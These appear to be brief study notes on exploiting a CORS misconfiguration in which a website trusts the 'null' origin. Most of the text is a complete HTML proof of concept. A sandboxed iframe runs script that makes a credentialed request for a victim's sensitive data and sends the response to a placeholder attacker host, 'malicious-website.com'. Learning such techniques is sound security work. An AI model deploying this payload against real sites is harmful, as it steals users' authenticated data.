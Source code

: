 website white listing null origin:

an attacker might create a null origin using this  technieqe: 
```html
<html>
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();
function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>

```